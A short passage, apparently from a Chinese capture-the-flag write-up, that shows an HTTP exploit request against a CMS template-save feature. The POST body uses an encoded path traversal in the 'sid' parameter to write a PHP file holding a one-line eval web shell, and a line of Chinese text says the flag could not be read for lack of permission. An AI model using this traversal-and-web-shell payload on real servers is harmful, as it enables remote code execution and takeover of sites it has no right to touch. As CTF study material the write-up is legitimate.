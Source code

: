 ```plain
GET:
case=template&act=save&admin_dir=admin&site=default

POST:
sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php @eval($_POST[1]);phpinfo();?>
```

[![](assets/1705540441-bfe66841fdb1726ca2ed4d3bc6628a06.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240117194509-de03896c-b52d-1.jpg)

查看 flag 发现没有权限

[![](assets/1705540441-e170cb97eb27b698e9777e0f462b45d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174603-1057eb68-b454-1.png)
